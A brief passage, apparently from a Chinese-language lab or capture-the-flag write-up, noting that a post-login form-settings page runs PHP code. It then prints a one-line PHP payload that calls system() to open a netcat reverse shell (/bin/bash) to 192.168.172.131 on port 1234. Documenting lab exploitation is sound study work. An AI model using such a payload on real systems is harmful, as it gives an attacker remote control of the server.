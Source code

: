 ![image-20240824145129770](./assets/image-20240824145129770.png)

- 登录后发现是可以``表单设置``这里可以执行php代码

```php
<?php system("nc -e /bin/bash 192.168.172.131 1234"); ?>
```
